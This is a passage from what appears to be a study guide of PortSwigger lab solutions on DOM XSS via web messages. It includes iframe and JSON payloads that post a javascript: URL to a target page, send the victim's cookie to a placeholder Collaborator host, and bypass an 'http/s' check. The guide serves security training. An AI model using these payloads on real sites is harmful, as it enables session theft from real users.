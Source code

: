 >Host an **iframe** on the exploit server html body, and send it to the victim, resulting in the stealing of their cookie. The victim cookie is send to the Burp collaboration server.  

```html
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>

```  

>At the end of the iframe onload values is a "*", this is to indicate the target is any.  
  
[PortSwigger Lab: DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)  

![DOM Invader identify web messages](images/dom-invader-identify-web-messages.png)  

>Replay the post message using DOM Invader after altering the JSON data.  

```JSON
{
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}
```  

![DOM Invader resend web messages](images/dom-invader-resend-web-messages.png)  
  
[PortSwigger: Identify DOM XSS using PortSwigger DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages)  

### DOM XSS AddEventListener JavaScript URL  

>Reviewing the page `source code` we ***identify*** the ```addeventlistener``` call for a web message but there is an `if` condition checking if the string contains ```http/s```.  

![source-code-web-message-url.png](images/source-code-web-message-url.png)  

>The exploit server hosted payload below includes the ```https``` string, and is successful in bypassing the `if` condition check.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://Collaborator.com?c=`+document.cookie','*')">
```  

![DOM-XSS AddEventListener JavaScript URL](images/DOM-XSS-AddEventListener-JavaScript-URL.png)  
  
[PortSwigger Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)  
  
### DOM XSS AddEventListener Ads Message  

>In the `source code` we ***identify*** the call using ```addEventListener``` and an element id ```ads``` being referenced.  
